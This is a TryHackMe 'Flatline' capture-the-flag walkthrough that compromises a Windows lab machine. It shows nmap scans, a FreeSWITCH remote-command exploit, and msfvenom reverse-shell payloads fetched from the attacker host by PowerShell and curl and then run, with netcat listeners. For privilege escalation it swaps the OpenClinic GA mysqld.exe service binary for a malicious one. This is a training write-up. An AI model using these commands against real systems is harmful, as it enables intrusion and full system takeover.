 ```yaml
---

title: Walkthrough - Flatline
published: true
---
```


Tags: Security, RCE, Broken Permissions.
Description: How low are your morals?
Difficulty: Easy
URL: [https://tryhackme.com/room/flatline](https://tryhackme.com/room/flatline)

* * *

## Notes

- `nmap -Pn -sS -T4 -p- 10.10.71.193 -vvv`

```
PORT     STATE SERVICE       REASON                                                                                          
3389/tcp open  ms-wbt-server syn-ack ttl                                                
8021/tcp open  ftp-proxy     syn-ack ttl 125 
```

- `sudo nmap -sC -sV -Pn -sS -O 10.10.71.193 -p3389,8021`

```
PORT     STATE SERVICE          VERSION
3389/tcp open  ms-wbt-server    Microsoft Terminal Services
| rdp-ntlm-info: 
|   Target_Name: WIN-EOM4PK0578N
|   NetBIOS_Domain_Name: WIN-EOM4PK0578N
|   NetBIOS_Computer_Name: WIN-EOM4PK0578N
|   DNS_Domain_Name: WIN-EOM4PK0578N
|   DNS_Computer_Name: WIN-EOM4PK0578N
|   Product_Version: 10.0.17763
|_  System_Time: 2022-08-25T13:37:09+00:00
| ssl-cert: Subject: commonName=WIN-EOM4PK0578N
| Not valid before: 2022-08-24T13:29:23
|_Not valid after:  2023-02-23T13:29:23
|_ssl-date: 2022-08-25T13:37:11+00:00; 0s from scanner time.
8021/tcp open  freeswitch-event FreeSWITCH mod_event_socket
```

searching exploitdb we find a freeswitch exploit that works.

- `python3 freeswitch-exploit.py 10.10.71.193 systeminfo`

Now we can create a payload for the target system `msfvenom -p windows/shell_reverse_tcp LHOST=10.2.127.225 LPORT=6666 -f exe > shell.exe`

- start simple webserver `python3 -m http.server 80` and start listener `rlwrap nc -nvlp 6666`
- upload and start shell `python3 freeswitch-exploit.py 10.10.71.193 "powershell.exe Invoke-WebRequest -Uri http://10.2.127.225/shell.exe -OutFile ./shell.exe && .\shell.exe"`

![](/assets/flatline01.png)

* * * 

## What is the content of user.txt?

![](/assets/flatline02.png)

* * * 

## What is the content of root.txt?

We find OpenClinic GA on the system `searchsploit -m windows/local/50448.txt`. This escalation works by letting a low privilege account being able to rename lysqld or tomcat8.exe files located in bin folders and replacing with a malicious file that can connect back to due the service running as local system. we will try replacing the exe here `\mariadb\bin\mysqld.exe`. 

1. Generate malicious .exe on attacking machine
    `msfvenom -p windows/shell_reverse_tcp LHOST=192.168.1.102 LPORT=4242 -f exe > /var/www/html/mysqld_evil.exe`

2. Setup listener and ensure apache is running on attacking machine
    `nc -lvp 4242`
    

3. Download malicious .exe on victim machine
    type on cmd: `curl http://192.168.1.102/mysqld_evil.exe -o "C:\projects\openclinic\mariadb\bin\mysqld_evil.exe"`

4. Overwrite file and copy malicious .exe.
    `Renename C:\projects\openclinic\mariadb\bin\mysqld.exe > mysqld.bak`
    `Rename downloaded 'mysqld_evil.exe' file in mysqld.exe`

5. Restart service

6. Reverse Shell on attacking machine opens

![](/assets/flatline03.png)

* * * 

